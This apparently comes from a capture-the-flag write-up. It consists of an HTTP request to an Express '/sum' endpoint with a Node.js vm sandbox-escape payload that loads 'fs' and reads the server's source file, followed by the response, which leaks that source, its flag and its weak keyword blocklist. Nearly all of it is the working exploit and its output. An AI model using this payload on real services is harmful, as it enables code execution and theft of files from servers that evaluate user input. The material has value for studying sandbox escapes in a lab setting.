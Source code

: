 ### Exploit

```http
GET /sum?a=1,1);result=this.constructor.constructor(%27return%20this.process.mainModule.require%27)()(%22fs%22).readFileSync(%22/home/ctf/server.js%22).toString()//&b=1 HTTP/1.1
Host: 34.141.31.183:30641
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Response:

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 3093
ETag: W/"c15-c0Dr+3MTASHV4WmYadxhB/CakcA"
Date: Sat, 28 Aug 2021 17:22:32 GMT
Connection: close

{"result":"'use strict';\n\nconst express = require('express');\n\n// FLAG = CTF{de71c185bcc37c8b169f7bb4c1c0bd3c7fe041110ae4d176434d396c2de52121}\n\n// Constants\nconst PORT = 1234;\nconst HOST = '0.0.0.0';\n\n// App\nconst app = express();\n\n\napp.get('/', (req, res) => {\n    app.use(express.static(\"public\"));\n    res.sendFile('/home/ctf/index.html');\n    \n});\n\n\napp.get('/multiply', (req, res) => {\n    if(req.query.a == null || req.query.b == null ){\n        res.status(200);\n        res.json({\n            result: (\"Missing a,b!!\")\n        });\n        return;\n    }\n    res.setHeader(\"Content-Type\", \"application/json\");\n    res.status(200);\n    res.json({\n        result: (req.query.a * req.query.b)\n    });\n});\napp.get('/sqrt', (req, res) => {\n    if(req.query.a == null || req.query.b == null ){\n        res.status(200);\n        res.json({\n            result: (\"Missing a,b!!\")\n        });\n        return;\n    }\n    res.setHeader(\"Content-Type\", \"application/json\");\n    res.status(200);\n    res.json({\n        result: (Math.sqrt(req.query.a))\n    });\n});\n\napp.get('/mod', (req, res) => {\n    if(req.query.a == null || req.query.b == null ){\n        res.status(200);\n        res.json({\n            result: (\"Missing a,b!!\")\n        });\n        return;\n    }\n    res.setHeader(\"Content-Type\", \"application/json\");\n    res.status(200);\n    res.json({\n        result: (req.query.a % req.query.b)\n    });\n});\n\napp.get('/div', (req, res) => {\n    if(req.query.a == null || req.query.b == null ){\n        res.status(200);\n        res.json({\n            result: (\"Missing a,b!!\")\n        });\n        return;\n    }\n    res.setHeader(\"Content-Type\", \"application/json\");\n    res.status(200);\n    res.json({\n        result: (req.query.a / req.query.b)\n    });\n\n});\n\napp.get('/sum', (req, res) => {\n    const vm = require(\"vm\");\n    // exit remove\n    if(req.query.a == null || req.query.b == null ){\n        res.status(200);\n        res.json({\n            result: (\"Missing a,b!!\")\n        });\n        return;\n    }\n    console.log(req.query.a);\n    \n    var result = 0, code = \"var add = function(a,b){return a + b;}; result = add(\"+req.query.a+\",two);\";\n   \n    if( req.query.a.includes(\"exit()\")){\n        res.status(200);\n        res.json({\n            result: (\"You Bastard!\")\n    });\n    }\n    else if (req.query.a.includes(\".execSync(\")){\n        res.status(200);\n        res.json({\n            result: (\"You Better Try Harder Than This!\")\n    });\n    }\n    else{\n        try {\n            result = vm.runInNewContext(code,{two:req.query.b,result:result});\n        } catch(e) {\n            res.status(500);\n            res.json({\n             msg: e.toString(),\n             stack: e.stack\n            }); \n            \n            return;\n        }\n        \n    }\n   \n    res.status(200);\n    res.json({\n        result: (result)\n        });\n    });\n\napp.listen(PORT, HOST);\nconsole.log(`Running on http://${HOST}:${PORT}`);\n"}
```
